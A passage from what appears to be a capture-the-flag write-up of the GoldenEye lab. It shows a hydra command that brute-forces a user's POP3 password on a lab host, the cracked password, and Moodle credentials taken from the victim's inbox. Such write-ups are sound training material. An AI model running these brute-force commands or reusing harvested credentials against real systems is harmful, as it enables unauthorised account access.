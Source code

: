 Dr Doak mentions that his email username is **doak**. Let's try using `hydra` again to brute-force his POP3 password:

``` 
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f -s 55007 -t 64 10.10.49.24 pop3
```

![screenshot24](../assets/images/goldeneye/screenshot24.png)

Dr Doak's password is:

> goat 

Let's log into his inbox and read his emails. There is only 1 email in his inbox:

![screenshot25](../assets/images/goldeneye/screenshot25.png)

We've acquired his credentials to the moodle learning site:

> dr_doak : 4England!

After logging into Dr Doak's account, I found an interesting file called **s3cret.txt** in the 'My private files' section of the site:

